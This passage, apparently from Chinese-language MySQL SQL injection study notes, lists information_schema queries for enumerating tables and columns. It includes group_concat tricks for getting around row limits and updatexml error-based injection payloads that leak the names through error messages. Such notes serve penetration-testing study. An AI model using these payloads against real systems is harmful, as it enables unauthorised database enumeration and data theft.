   + **列出特定数据库中的所有表**
  
    ```sql
    select table_name from information_schema.tables where table_schema = 'dbname';
    // 如果碰到limit 0, 1的限制，可以使用group_concat()函数
    select group_concat(table_name) from information_schema.tables where table_schema = 'dbname';
    // 报错注入
    updatexml(1,concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema = 'dbname'), 0x7e),1)
    ```

    ![image-20240115201830030](../img/image-20240115201830030.png)
  
  + **列出特定表中的所有列**
  
    ```sql
    select column_name from information_schema.columns where table_name='tablename';
    // 如果碰到limit 0, 1的限制，可以使用group_concat()函数
    select group_concat(column_name) from information_schema.columns where table_name = 'tablename';
    // 报错注入
    updatexml(1,concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name = 'tablename'), 0x7e),1)
    ```
  
    ![image-20240115202208694](../img/image-20240115202208694.png)
  